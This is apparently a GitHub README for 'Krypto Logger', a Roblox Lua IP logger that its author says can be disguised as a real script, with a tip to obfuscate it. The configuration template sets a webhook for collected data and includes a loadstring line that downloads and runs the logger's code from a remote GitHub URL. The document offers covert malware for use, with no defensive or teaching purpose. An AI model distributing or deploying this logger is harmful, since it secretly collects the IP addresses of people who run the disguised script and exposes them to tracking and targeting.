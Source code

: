 # Krypto Logger
*Advance modern IP-Logger that can be disguised as a real script. All under 200 lines!💃*

# Configuring

A template on how to configure it. Make sure to obfuscate it 🕶

```lua
_G.Webhook = ""
_G.SomeoneExecuted = "<enter like what your ip logger name>"
loadstring(game:HttpGet('https://raw.githubusercontent.com/RENBex6969/KryptoLogger/main/KryptoLogger.lua'))()
```

# License
*If you do use my scripts or my work you will be automatically agreeing to the license in https://github.com/RENBex6969/KryptonReload*


